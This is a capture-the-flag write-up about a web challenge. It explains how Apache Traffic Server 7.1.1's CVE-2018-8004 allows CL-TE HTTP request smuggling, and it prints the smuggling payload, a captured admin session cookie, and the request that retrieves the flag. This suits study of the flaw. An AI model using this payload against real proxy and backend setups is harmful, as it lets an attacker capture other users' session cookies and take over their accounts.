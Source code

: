 ### Port 33337 \[Web]

In the `Server` response header, we could see that the Apache Traffic Server (ATS) 7.1.1 was used,

This is vulnerable to CVE-2018-8004, a request smuggling vulnerability, and I came across a nice writeup [here](https://medium.com/@knownsec404team/protocol-layer-attack-http-request-smuggling-cc654535b6f). The relevant patch we are looking at is [here](https://github.com/apache/trafficserver/pull/3231) - a lack of validation for `Content-Length` headers.

In the vulnerable version, even if the `Transfer-Encoding` header exists, the `Content-Length` header is used. This leads to a request smuggling vulnerability if the backend server processes the `Transfer-Encoding` header instead of the `Content-Length` header to decide where the request ends.

![](<../.gitbook/assets/Screenshot 2021-12-07 at 1.03.20 PM.png>)

It was observed that whenever a request is made to `/save.php`, an entry is appended to a "log file", which contains the cookies and the value of the `X-Access` header.

Assuming that an admin visits the site, we could use a CL-TE request smuggling attack to direct the admin to `/save.php`.

Consider the following payload:

```http
GET / HTTP/1.1
Host: threeofhearts.ctf.net
Content-Length: 30
Transfer-Encoding: chunked

0

GET /save.php HTTP/1.1
```

The ATS server processes the `Content-Length` header, and thus forwards the entire payload as a single request to the Nginx backend.&#x20;

However, Nginx sees the `Transfer-Encoding` header and decides that the first request ends early. This is a full, complete request.

```http
GET / HTTP/1.1
Host: threeofhearts.ctf.net
Content-Length: 30
Transfer-Encoding: chunked
```

This is then followed by a second request, which is _not yet completed._

```http
GET /save.php HTTP/1.1
```

When the admin visits the site (the third request), his request is appended to the above incomplete request - the second and third request thus are processed as one single request.

```http
GET /save.php HTTP/1.1

...

Cookie: <Admin Cookies>
X-Access: <Admin X-Access Header>
```

Crucially, this request contains the admin's `Cookie` and `X-Access` headers.

In the log file, we can view the cookie:

```
Params:
Headers:
	X-Access: private
	Cookie: PHPSESSID=8m9k6s84bmdf270tbi81bpacc7
```

Then, visit `private.php` to view the flag.

```http
GET /private.php HTTP/1.1
Host: threeofhearts.ctf.net
X-Access: private
Cookie: PHPSESSID=8m9k6s84bmdf270tbi81bpacc7
```
